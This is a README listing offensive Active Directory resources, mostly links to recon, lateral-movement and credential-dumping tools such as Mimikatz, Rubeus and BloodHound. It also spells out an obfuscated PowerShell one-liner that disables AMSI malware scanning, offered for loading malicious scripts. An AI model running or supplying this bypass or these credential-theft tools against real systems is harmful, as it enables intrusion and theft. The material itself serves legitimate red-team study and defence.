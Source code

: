 # AD-Security-Resources


==> Bypassing Powershell execution policy issues : 
-> Github links - AMSI Bypass for loading malicious scripts: 
  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
-> Something that works quickly
  sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

==> Recon of active directory objects :
-> PowerView / Powersploit :
  https://github.com/PowerShellMafia/PowerSploit

-> AD Module :
  https://github.com/samratashok/ADModule

-> Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound


==> Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

==> Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
-> Mimikatz :
  https://github.com/gentilkiwi/mimikatz

-> Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

-> Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

-> Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

-> Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

-> Rubeus :
  https://github.com/GhostPack/Rubeus

==> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle

==> Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


-> Setting up active directory lab :
  https://github.com/outflanknl/Invoke-ADLabDeployer





